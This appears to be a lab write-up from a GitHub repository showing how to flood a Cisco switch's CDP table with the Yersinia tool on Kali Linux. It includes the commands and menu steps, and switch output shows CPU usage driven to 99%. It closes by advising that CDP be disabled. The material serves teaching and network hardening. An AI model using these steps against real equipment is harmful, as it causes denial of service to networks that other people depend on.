


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    

    Select Launch attack -> flooding CDP table

    

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
    6. Conclusion
    
    It is recommended to disable CDP whenever possible.